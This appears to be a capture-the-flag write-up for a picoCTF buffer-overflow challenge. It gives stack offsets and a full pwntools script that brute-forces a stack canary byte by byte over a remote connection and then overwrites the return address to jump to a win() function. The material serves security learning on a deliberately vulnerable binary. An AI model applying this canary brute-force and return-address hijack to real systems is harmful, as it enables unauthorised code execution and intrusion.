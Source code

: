 The return address is at `0xffffd05c` on the stack with a value of `0x80495e6`

The `win()` function is at `0x8049336` by doing `p win`

The offset from the start of `buf` to the start of the canary is `0xffffd048-0xffffd008=0x40=64`

The offset from the canary to the return address is `0xffffd05c-0xffffd048-4=16`

Code for `buffer_overflow_3.py`:

```python
from pwn import *

port = 55533
debug = 0
canary = ''

offset = 0xffffd048 - 0xffffd008        	# start of canary - start of buffer
offset2 = 0xffffd05c - 0xffffd048 - 4		# start of return address - start of canary - 4 bytes
length = offset

with context.quiet:
    for i in range(1, 5):
        length += 1
        for j in range(0xff):
            if not debug:
                p = remote('saturn.picoctf.net', port)
            else:
                p = process('./vuln')

            p.sendlineafter(b'> ', str(length).encode())

            payload = b'A' * offset                 # padding
            payload += canary.encode()              # part of canary
            payload += chr(j).encode()              # testing character
            p.sendlineafter(b'Input> ', payload)

            try:
                canary_return = p.recvline()
                if (canary_return != b'***** Stack Smashing Detected ***** : Canary Value Corrupt!\n'):
                    canary += chr(j)
                    p.close()
                    break
                p.close()
            except:
                p.close()

if not debug:
    p = remote('saturn.picoctf.net', port)
else:
    p = process('./vuln')

length = offset + 4 + offset2 + 4
print(p.recvline())
p.sendline(str(length).encode())

payload = b'A' * offset                         # padding
payload += canary.encode()                      # canary
payload += b'A' * offset2                       # padding 2
payload += p32(0x8049336)                       # win
print(p.recv())
print(p.recv())
p.sendline(payload)

print(p.recvline())
```